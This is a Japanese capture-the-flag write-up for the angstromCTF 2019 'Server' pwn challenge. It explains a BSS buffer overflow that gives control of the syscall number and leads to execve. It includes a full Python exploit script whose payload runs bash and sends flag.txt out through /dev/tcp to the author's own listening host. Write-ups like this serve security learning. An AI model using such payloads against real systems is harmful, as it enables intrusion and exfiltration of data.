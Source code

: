 # [pwn 180pts] Server - angstromCTF 2019
64bitで全部無効です。というかアセンブリ製です。
```
$ checksec server
[*] 'server'
    Arch:	64 bits (little endian)
    NX:		NX disabled
    SSP:	SSP disabled (No canary found)
    RELRO:	No RELRO
    PIE:	PIE disabled
```

HTTPサーバーのバイナリです。
URLを読み込む際にバッファオーバーフローがあります。
bssセクションにある変数なので、書き換えられるのはsocketのfdやリクエストを入れるバッファなどです。

なのでそれだけではどうということは無いのですが、次のような箇所があります。
（IDAが`sys_write`みたいなのを表示してくれないのでしばらく気づかなかった。）

```nasm
mov     rdi, fd
mov     eax, 1
mov     rsi, offset aWelcomeToMyWeb ; "welcome to my web server! as you can se"...
mov     rdx, welcome_size ; count
syscall                 ; LINUX - sys_write
sub     rax, rdx
add     rax, 3
xor     rdx, rdx
syscall                 ; LINUX -
mov     eax, 3Ch
syscall                 ; LINUX - sys_exit
```

謎のsyscallがありますが、通常は`sys_write`で出力された文字数がraxに入り、rdxには出力する文字数(count)が入っているので、subとaddでraxは3となり、結果として`sys_close(0)`が呼び出されます。
しかし、countやfdはbssにあるため、これらを上書きすれば`sys_write`がエラーを起こしてraxに大きな値が返ります。
具体的には、fdが存在しないファイルディスクリプタの場合、`sys_write`は0xfffffffffffffff7を返します。
また、rdxは操作可能なので、結果としてraxを制御でき、任意のシステムコールが呼び出せます。
おまけにrsiはウェルカムメッセージへのポインタが入っており、rdiはfdと同じになっています。
したがって、第一引数の値と、第二引数が指すポインタにあるデータは操作可能です。
rdxは0になっているので第三引数は0です。
なんか指定したアドレスを呼び出してくれるシステムコールが無いか探しましたがありませんでした。
そこで、`execve`を使うことにします。
ソケット経由でデータが流れてくるため、一見シェルを起動しても無駄に思えますが、`/bin/bash -c 'hogehoge'`のようにコマンドを実行することができます。
bashでは`/dev/tcp/IP ADDRESS/PORT NUMBER`にリダイレクトすることでTCPでデータを送ることができるため、自分のサーバーを立ててこれをしました。

lsの結果を送るとflag.txtがあることが分かったので、その内容を取得します。

```python
from ptrlib import *

syscall_num = 59 # sys_execve

addr_buf = 0x4028b1
addr_msg = 0x402840

struct = b''
struct += p64(addr_msg)
struct += p64(addr_msg + 10)
struct += p64(addr_msg + 13)
struct += p64(0)
struct += b'/bin/bash\x00' # addr_msg
struct += b'-c\x00' # addr_msg + 10
struct += b'cat<flag.txt>&/dev/tcp/??.??.??.??/9999' # addr_msg + 13
struct += b'\x00' * (0x58 - len(struct))
struct = struct[:-1] + b' '

URL = b"A" * 0x800
URL += p64(addr_msg) # file descriptor
URL += p64(0xfffffffffffffff7 + 3 - syscall_num) # size
URL += struct

REQUEST = b"HELLO WORLD!"

#sock = Socket("localhost", 19303)
sock = Socket("shell.actf.co", 19303)

payload = b"GET "
payload += URL
payload += REQUEST
sock.send(payload)
sock.interactive()
```

私のPC：
```
$ python solve.py 
[+] Socket: Successfully connected to shell.actf.co:19303
[ptrlib]$ HTTP/1.1 200 OK
```

私のサーバー：
```
$ nc -l -p 9999
actf{the_true_w3b_a5s3mbly}
```

コマンドをREQUESTの方に書けばもっと長いコマンドも実行できますが、謎のこだわりでURLで全部済ましました。

# 感想
あまりこういうタイプのpwnを解く機会はないので面白かったです。
